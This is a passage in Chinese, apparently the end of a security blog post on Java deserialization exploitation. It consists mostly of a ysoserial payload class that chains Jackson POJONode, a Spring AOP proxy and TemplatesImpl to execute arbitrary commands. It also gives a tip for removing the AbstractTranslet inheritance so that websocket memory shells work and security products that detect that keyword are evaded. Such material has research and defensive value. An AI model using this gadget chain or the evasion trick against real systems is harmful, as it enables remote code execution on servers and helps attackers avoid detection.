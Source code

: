 在ysoserial中也提供了一个代理封装的方法：`Gadgets#createProxy`，下面给出利用ysoserial构造后的完整代码：

```java
public class test implements ObjectPayload<Object> {
    public Object getObject(String command) throws Exception {
        final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);
        final Object proxyObj = Gadgets.createProxy(
            (InvocationHandler) Reflections.getFirstCtor("org.springframework.aop.framework.JdkDynamicAopProxy").newInstance(as),Templates.class);
        POJONode jsonNodes = new POJONode(proxyObj);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        return exp;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jackson1.class, args);
    }
}
```

## 0x04 结尾

此次过程中还发现了一个Tips，具体分析可参考：[https://ispacesoft.com/161752.html](https://ispacesoft.com/161752.html)

问题：ysoserial中使用了Javassist来构建templates的\_bytecodes属性时，需要继承AbstractTranslet类才能利用，移除继承后无法利用。

1.  在websocket内存马中，变成了抽象类`javax.xml.ws.Endpoint`，但是由于java不允许多继承，继承了AbstractTranslet类后，就无法再继承Endpoint类了；
2.  部分安全产品对AbstractTranslet关键字也有检测。

解决：满足两个条件即可实现去除继承AbstractTranslet类：

1.  参数 `classCount` 数量大于1，即生成类的数量大于1；
2.  参数 `_transletIndex` 大于等于0，该属性为指定为恶意类的索引，默认为-1。

```java
//原写法
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
//修改后
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
classBytes, ClassFiles.classAsBytes(Foo.class)
});
//添加_transletIndex字段
Reflections.setFieldValue(templates, "_transletIndex", 0);
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```

